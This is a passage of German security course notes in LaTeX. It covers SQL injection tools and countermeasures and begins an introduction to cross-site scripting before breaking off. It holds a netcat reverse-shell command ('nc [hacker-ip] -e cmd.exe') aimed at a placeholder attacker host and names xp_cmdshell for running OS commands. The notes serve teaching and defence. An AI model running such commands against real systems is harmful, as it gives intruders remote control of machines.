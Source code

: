 \begin{lstlisting}
nc [hacker-ip] -e cmd.exe
\end{lstlisting}

\subsection{Tools}
\begin{itemize}
	\item SQLMap
	\item xp\_cmdshell (Für MS SQL-Server. Führt via Stored Procedures CMD Kommandos auf dem OS aus)
\end{itemize}

\subsection{Massnahmen}
\paragraph{Verhinderung:} Dies sollte immer gemacht werden.


Escaping (Steuerungszeichen, z.B. \lstinline|\'|, \lstinline|\"|)

Alternativ: Whitelisting [A-Z, a-z, 0-9]* oder Blacklisting(INSERT INTO, 1=1, ')
\begin{itemize}
	\item Java: Prepared Statements
	\item .NET: Parameter Collections
	\item SQL: Stored Procedures
\end{itemize}

\paragraph{Erschweren:} Dies dient der Erschwerung des Zugriffs bzw. Schaden auf bestehende Applikationen, welche evtl. solche Lücken haben.
\begin{itemize}
	\item WAF: Web Application Firewall
	\item DB Least Privilege: Application User mit wenig Rechten, Rechte bei Stored Procedures
	\item DB nicht als Root ausführen
	\item Passwörter Hashen (SHA-256) und Salten (JPBKDF2, scrypt, bcrypt)
\end{itemize}


\section{XSS: Cross Site Scripting}
XSS Lücken entstehen, wenn eine Applikation User Data entgegennimmt ohne diese entsprechend zu validieren und den Inhalt zu escapen. Mit XSS sind unterschiedlichste Angriffe möglich, wie z.B Session Hijacking, Anpassen von Web Inhalten, Keystroke Logging, usw. Das Problem von XSS existiert, da man nicht übergreifend escapen kann (je nach Kontext. z.B würde der Name O'Brien immer falsch Angezeigt). Es gibt drei Arten von XSS: 


